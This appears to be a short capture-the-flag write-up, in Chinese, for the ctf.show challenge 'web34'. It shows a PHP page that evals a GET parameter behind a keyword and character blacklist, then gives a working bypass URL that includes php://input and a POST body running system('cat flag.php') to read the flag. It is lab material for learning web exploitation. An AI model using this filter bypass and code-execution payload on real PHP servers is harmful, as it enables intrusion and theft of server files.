

# web34

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

除了空格以外，还拦截了以下字符

```plaintext
. ' ` ; ( " :
```

那么只要`c`参数的数据内没有冒号即可

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET["command"]?>&command=php://input

POST: <?php system("cat flag.php"); ?>
```

